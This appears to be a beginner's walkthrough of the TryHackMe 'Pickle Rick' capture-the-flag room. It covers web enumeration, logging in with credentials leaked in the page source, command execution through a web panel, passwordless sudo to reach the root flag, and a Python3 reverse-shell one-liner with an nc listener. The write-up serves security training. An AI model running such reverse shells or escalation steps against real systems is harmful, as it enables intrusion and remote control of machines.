# Pickle Rick Writeup

This CTF is a very easy but also one of my first ever done CTF.
It is on tryhackme, link: https://tryhackme.com/room/picklerick   

---  
   

   

## I first ran nmap, nikto and gobuster:   



We can find:
/login.php (200)
/robots.txt(200)

and in 300:
/portal.php
/assets
  
After the basic enumeration, I looked a bit in the developer tools and,
I found something interesting in the source code:  

   

I then took a look at robots.txt:

   

We can then try it in the login page, and .... It works!  

  

 

In the writable field you can then write commands, for example "whoami":  

  

After a ls -al command you can see "Sup3rS3cretPickl3Ingred.txt", but you can't cat it...   

  

So I tried to less it, and it works!

 

You can actually already find the second flag 



BUT when using the command "sudo -l" to see what command we can run, we see something interesting:



We can run all commands with no password.
SO, we can run "sudo ls -al /root" And there it is!



So with a simple "sudo less /root/3rd.txt, We get the 3rd and last flag!

---
# Other technique of resolution   

This works, but isn't the cleanest technique, we could also send a reverse shell, the python one works, but only python3!  

From: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md  

### Don't foget to put your IP and port if you want!  
   

- Shell: export RHOST="<IP>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

- Listener: nc -lvnp 4444   
  
You can then work directly from your terminal!

  

---  

# Hope you enjoyed it!

### Contact: alex.spiesberger@gmail.com

  

